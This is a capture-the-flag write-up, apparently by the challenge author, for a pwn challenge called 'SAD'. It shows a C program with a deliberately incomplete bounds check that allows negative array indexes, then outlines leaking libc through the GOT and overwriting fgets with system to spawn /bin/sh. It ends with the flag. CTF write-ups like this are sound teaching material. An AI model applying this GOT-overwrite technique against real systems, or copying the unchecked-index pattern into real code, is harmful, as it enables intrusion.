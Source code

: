 ## Challenge Name: SAD
**Category**: Pwn

**Points**: 499

**Solves**: 2

**Challenge Description**: There's a secret agent database (SAD) I
 just got access to, I wonder if there's more we can access beyond the secret agent names...

Given Files:
* [sad](sad)
* [chall.c](chall.c)
* [libc](libc6_2.35-0ubuntu3.6_amd64.so)
* [dynamic linker]()

This was the first challenge I ever wrote for a ctf and I hope the players enjoyed it. Here is my intented solution and it also happens to be my first ever writeups so I apologise in advance if it is unclear.

## Solution
Running the binary we get
```
root@8bbc2ed97cff:/home/sieberr# ./sad
Welcome to the secret agent database (sad)!!!
Someone told me it can be hacked with ease...
--- MENU ---
1. Read a name
2. Change a name
3. Exit
> 1
Agent number: 0
[Agent no. 0]: Alice
--- MENU ---
1. Read a name
2. Change a name
3. Exit
> 2
Agent number: 0
New name: AAAA
[Agent no. 0]: AAAA

--- MENU ---
1. Read a name
2. Change a name
3. Exit
> 3
Bye
```
We can view and edit agent names based off an indexing system. Looking through the source code, we see that agents is an array stored in the .bss section as it is a global array.
```
char agents[][8] = {"Alice","Bob","Craig","David","Eve","Faythe"};
``` 
We can access negative indexes of the agents array as it only checks if the index is smaller than 8, meaning that we can read and write arbitary memory in this program. 
```
    while (1) {
        menu();
        scanf("%d", &choice);
        switch(choice) {
            case 1:
                printf("Agent number: ");
                scanf("%d", &index);
                if (index > (int)(sizeof(agents)/8)-1) {
                    puts("tsk tsk don't be naughty...");
                    exit(1);
                }
                printf("[Agent no. %d]: %s\n",index, agents[index]);
                break;
            case 2:
                printf("Agent number: ");
                scanf("%d", &index);
                if (index > (int)(sizeof(agents)/8)-1) {
                    puts("tsk tsk don't be naughty...");
                    exit(1);
                }
                getchar();
                printf("New name: ");
                fgets(agents[index],8,stdin);
                printf("[Agent no. %d]: %s\n",index, agents[index]);
                break;
            case 3:
                puts("Bye");
                exit(1);
            default:
                puts("Invalid Choice");
        }
```
In addition, the program is complied with no relro so the global offset table(got) is writeable. The got contains entries to functions in libc so that they are linked dynamically when the code runs.
```
//gcc  ./chall.c -Wl,-z,norelro -o sad
```

## Exploit
We can leak the addresses of libc functions in the got to defeat aslr. Examining memory in gdb, we can see that the printf got entry is at `0x555555600f28` and `-11` index of agents.
```
pwndbg> x/20gx 0x555555600f20
0x555555600f20: 0x00007ffff7e13e50      0x00007ffff7df36f0
0x555555600f30: 0x00007ffff7e12380      0x00007ffff7e1aae0
0x555555600f40: 0x00007ffff7df5090      0x00007ffff7dd85f0
0x555555600f50: 0x0000000000000000      0x0000000000000000
0x555555600f60: 0x0000000000000000      0x0000555555600f68
0x555555600f70: 0x0000000000000000      0x0000000000000000
0x555555600f80 <agents>:        0x0000006563696c41      0x0000000000626f42
0x555555600f90 <agents+16>:     0x0000006769617243      0x0000006469766144
0x555555600fa0 <agents+32>:     0x0000000000657645      0x0000656874796146
0x555555600fb0 <stdin@@GLIBC_2.2.5>:    0x00007ffff7fadaa0      0x0000000000000000
pwndbg> got

GOT protection: No RELRO | GOT functions: 6

[0x555555600f20] puts@GLIBC_2.2.5 -> 0x7ffff7e13e50 (puts) ◂— endbr64
[0x555555600f28] printf@GLIBC_2.2.5 -> 0x7ffff7df36f0 (printf) ◂— endbr64
[0x555555600f30] fgets@GLIBC_2.2.5 -> 0x7ffff7e12380 (fgets) ◂— endbr64
[0x555555600f38] getchar@GLIBC_2.2.5 -> 0x7ffff7e1aae0 (getchar) ◂— endbr64
[0x555555600f40] __isoc99_scanf@GLIBC_2.7 -> 0x7ffff7df5090 (__isoc99_scanf) ◂— endbr64
[0x555555600f48] exit@GLIBC_2.2.5 -> 0x7ffff7dd85f0 (exit) ◂— endbr64
```
The offset of system from printf is `0xf980` and we can overwrite the the a got entry to point to system in libc. This means that when that function is called, system is actually ran with all the original arguments.
```
pwndbg> x printf-system
0xf980: Cannot access memory at address 0xf980
```
A good victim would be `fgets` as it is called in this way
```
fgets(agents[index],8,stdin);
```
So when the got entry of `fgets` is overwritten to point to `system`. `system` with the first argument being an index of the `agents` array we can control and edit to be `/bin/sh` is called.
```
system(agents[index]);
```
1. Leak the `printf` address by reading -11 index of the `agents` array and calculate the address of `system` (Libc is given)

2. Edit an entry of `agents` array to `/bin/sh` 

3. Edit `fgets` (offset -10) got entry to point to system.

4. Choose to edit the index of `agents` array with `/bin/sh` written to trigger call to `system`


### Flag
sctf{4rr4y_00b5_4r3_d4ng3rou5}
